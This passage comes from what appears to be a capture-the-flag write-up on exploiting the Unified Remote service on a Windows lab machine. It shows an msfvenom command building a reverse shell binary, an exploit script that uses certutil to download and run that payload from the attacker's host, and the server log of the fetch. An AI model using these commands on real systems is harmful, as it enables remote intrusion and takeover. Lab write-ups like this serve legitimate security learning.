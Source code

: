     	print("[+] Done! Check listener?")
    	target.close()
    

It’s using `certutil` to download a file from the given IP, saving it in
`C:\windows\temp`, and then running it.

#### Generate Payload

Because I need to run something that will give a reverse shell without
arguments, I’ll just use `msfvenom` to generate a simple reverse shell binary:

    
    
    oxdf@hacky$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f exe -o rev.exe 
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 460 bytes
    Final size of exe file: 7168 bytes
    Saved as: rev.exe
    

Even though I noted that Unified Remote was running out of `Program File
(x86)` (and thus a 32-bit process), I can still use a 64-bit payload as the
system is 64-bit and the exploit just calls the payload, rather than loading
it in the context of the exploited application.

#### Exploit - Fail

I’ll run the script:

    
    
    oxdf@hacky$ python3 unified_remote_rce.py 127.0.0.1 10.10.14.6 rev.exe
    [+] Connecting to target...
    [+] Popping Start Menu
    [+] Opening CMD
    [+] *Super Fast Hacker Typing*
    [+] Downloading Payload
    [+] Done! Check listener?
    

When it gets to “Downloading Payload”, there’s a request at my listening
Python webserver:

    
    
    oxdf@hacky$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.11.115 - - [28/Jan/2022 16:53:31] "GET /rev.exe HTTP/1.1" 200 -
    

But I don’t get a callback at `nc`.

#### Exploit Success

`C:\Windows\Temp` can be locked down in a modern Windows system, so it’s
possible that I can’t write a payload there. I’ll update the script to write
to `C:\programdata` instead:
